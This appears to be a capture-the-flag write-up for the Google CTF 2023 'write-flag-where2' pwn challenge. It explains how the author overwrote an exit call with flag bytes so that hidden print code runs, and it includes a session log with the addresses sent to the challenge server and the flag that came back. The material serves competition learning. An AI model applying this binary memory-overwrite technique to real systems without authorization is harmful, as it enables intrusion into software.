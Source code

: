 # WRITE-THE-FLAG-WHERE2
## Description
## Attachments and official writeup
[https://github.com/google/google-ctf/tree/54f15c51f4b0267288f42274e8064fb2603da2ab/2023/pwn-write-flag-where2](https://github.com/google/google-ctf/tree/54f15c51f4b0267288f42274e8064fb2603da2ab/2023/pwn-write-flag-where2)
## Solution
1. firstly, by auditing the whole program, I found a suspicious text in `0x102050` and a group of unreachable code from `0x101445` to `0x10145e`
2. Then, I disassemble those codes and found a `print` function after `exit`
![1687835250074](image/solve/1687835250074.png)
![1687835265999](image/solve/1687835265999.png)
3. Therefore, we can write our flag into this string, and overwrite the `exit` function to print it out.  
4. Because the first four bytes of flag is `CTF{` -> `0x43 0x54 0x46 0x7b` -> `push r12` = `43 54`; `push rsp` = `54`, we can use `0x43 0x54` or `0x54` to overwrite the `exit` call instruction in binary.  
![1688006946472](image/solve/1688006946472.png)
5. Then, we should write our flag to the printed string constant.  

Logs:  
```
$ nc wfw2.2023.ctfcompetition.com 1337
== proof-of-work: disabled ==
Was that too easy? Let's make it tough
It's the challenge from before, but I've removed all the fluff
55fc4ecd6000-55fc4ecd7000 r--p 00000000 00:128 813981                    /home/user/chal
55fc4ecd7000-55fc4ecd8000 r-xp 00001000 00:128 813981                    /home/user/chal
55fc4ecd8000-55fc4ecd9000 r--p 00002000 00:128 813981                    /home/user/chal
55fc4ecd9000-55fc4ecda000 r--p 00002000 00:128 813981                    /home/user/chal
55fc4ecda000-55fc4ecdb000 rw-p 00003000 00:128 813981                    /home/user/chal
55fc4ecdb000-55fc4ecdc000 rw-p 00000000 00:00 0
7f9399c6a000-7f9399c6d000 rw-p 00000000 00:00 0
7f9399c6d000-7f9399c95000 r--p 00000000 00:128 814760                    /usr/lib/x86_64-linux-gnu/libc.so.6
7f9399c95000-7f9399e2a000 r-xp 00028000 00:128 814760                    /usr/lib/x86_64-linux-gnu/libc.so.6
7f9399e2a000-7f9399e82000 r--p 001bd000 00:128 814760                    /usr/lib/x86_64-linux-gnu/libc.so.6
7f9399e82000-7f9399e86000 r--p 00214000 00:128 814760                    /usr/lib/x86_64-linux-gnu/libc.so.6
7f9399e86000-7f9399e88000 rw-p 00218000 00:128 814760                    /usr/lib/x86_64-linux-gnu/libc.so.6
7f9399e88000-7f9399e95000 rw-p 00000000 00:00 0
7f9399e97000-7f9399e99000 rw-p 00000000 00:00 0
7f9399e99000-7f9399e9b000 r--p 00000000 00:128 814742                    /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7f9399e9b000-7f9399ec5000 r-xp 00002000 00:128 814742                    /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7f9399ec5000-7f9399ed0000 r--p 0002c000 00:128 814742                    /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7f9399ed1000-7f9399ed3000 r--p 00037000 00:128 814742                    /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7f9399ed3000-7f9399ed5000 rw-p 00039000 00:128 814742                    /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7fff1511b000-7fff1513c000 rw-p 00000000 00:00 0                          [stack]
7fff15168000-7fff1516c000 r--p 00000000 00:00 0                          [vvar]
7fff1516c000-7fff1516e000 r-xp 00000000 00:00 0                          [vdso]
ffffffffff600000-ffffffffff601000 --xp 00000000 00:00 0                  [vsyscall]


0x55fc4ecd80d5 64
0x55fc4ecd7443 2
0x55fc4ecd7442 2
0x55fc4ecd7441 2
0x55fc4ecd7440 2
x
CTF{impr355iv3_6ut_can_y0u_s01v3_cha113ng3_3?}
```